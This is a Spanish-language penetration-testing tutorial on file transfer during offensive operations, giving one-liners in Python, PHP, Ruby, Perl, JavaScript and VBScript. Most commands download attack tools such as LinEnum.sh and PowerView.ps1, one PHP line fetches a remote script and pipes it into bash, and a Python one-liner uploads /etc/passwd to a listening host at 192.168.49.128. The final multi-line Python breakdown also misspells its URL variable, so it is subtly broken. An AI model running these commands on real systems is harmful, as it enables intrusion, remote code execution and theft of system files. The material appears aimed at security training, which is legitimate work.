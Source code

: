## Python
#### Python 2 - Descargar
```js
python2.7 -c 'import urllib;urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```

#### Python 3 - Descargar
```js
python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```

## PHP
`PHP`También es muy frecuente y proporciona múltiples métodos de transferencia de archivos. [Según datos de W3Techs](https://w3techs.com/technologies/details/pl-php) , PHP es utilizado por el 77,4% de todos los sitios web con un lenguaje de programación del lado del servidor conocido. Aunque la información no es precisa y el número puede ser ligeramente menor, a menudo nos encontraremos con servicios web que utilizan PHP al realizar una operación ofensiva.

#### Descarga de PHP con File_get_contents()
```js
php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'
```

Una alternativa a `file_get_contents()` y `file_put_contents()`es el [módulo fopen()](https://www.php.net/manual/en/function.fopen.php) . Podemos usar este módulo para abrir una URL, leer su contenido y guardarlo en un archivo.
#### Descarga PHP con Fopen()
```js
php -r 'const BUFFER = 1024; $fremote = 
fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
```

También podemos enviar el contenido descargado a una tubería, similar al ejemplo sin archivos que ejecutamos en la sección anterior usando cURL y wget.
#### PHP descarga un archivo y canalízalo a Bash
```js
php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
```

## Other Languages
#### Ruby - Download a File
```js
ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'
```

#### Perl - Download a File
```js
perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");
```

## JavaScript
JavaScript es un lenguaje de programación o scripting que le permite implementar funciones complejas en páginas web. Como ocurre con otros lenguajes de programación, podemos usarlo para muchas cosas diferentes. El siguiente código JavaScript se basa en [esta](https://superuser.com/questions/25538/how-to-download-files-from-command-line-in-windows-like-wget-or-curl/373068) publicación y podemos descargar un archivo usándolo. Crearemos un archivo llamado `wget.js` y guarde el siguiente contenido:

```javascript
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
```

Podemos usar el siguiente comando desde un símbolo del sistema de Windows o una terminal de PowerShell para ejecutar nuestro código JavaScript y descargar un archivo.
```js
cscript.exe /nologo wget.js https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1
```

## VBScript
[VBScript](https://en.wikipedia.org/wiki/VBScript) ("Microsoft Visual Basic Scripting Edition") es un lenguaje Active Scripting desarrollado por Microsoft que sigue el modelo de Visual Basic. VBScript se ha instalado de forma predeterminada en todas las versiones de escritorio de Microsoft Windows desde Windows 98. Se puede utilizar el siguiente ejemplo de VBScript [En base a esto](https://stackoverflow.com/questions/2973136/download-a-file-with-vbs) . Crearemos un archivo llamado `wget.vbs` y guarde el siguiente contenido:
```vbscript
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with
```
Podemos usar el siguiente comando desde un símbolo del sistema de Windows o terminal PowerShell para ejecutar nuestro código VBScript y descargar un archivo.
#### Descargar un archivo usando VBScript y cscript.exe
```js
cscript.exe /nologo wget.vbs https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView2.ps1
```

## Upload Operations using Python3
Si queremos cargar un archivo, necesitamos comprender las funciones de un lenguaje de programación particular para realizar la operación de carga. El [módulo de solicitudes](https://pypi.org/project/requests/) de Python3 le permite enviar solicitudes HTTP (GET, POST, PUT, etc.) usando Python. Podemos usar el siguiente código si queremos cargar un archivo en nuestro [servidor de carga](https://github.com/Densaugeo/uploadserver) Python3 .

#### Iniciando el módulo del servidor de carga de Python
```js
python3 -m uploadserver 
```

#### Cargar un archivo usando una frase de Python
```js
python3 -c 'import requests;requests.post("http://192.168.49.128:8000/upload",files={"files":open("/etc/passwd","rb")})'
```

Dividamos este resumen en varias líneas para comprender mejor cada pieza.
```python
# To use the requests function, we need to import the module first.
import requests 

# Define the target URL where we will upload the file.
URL = "http://192.168.49.128:8000/upload"

# Define the file we want to read, open it and save it in a variable.
file = open("/etc/passwd","rb")

# Use a requests POST request to upload the file. 
r = requests.post(url,files={"files":file})
```

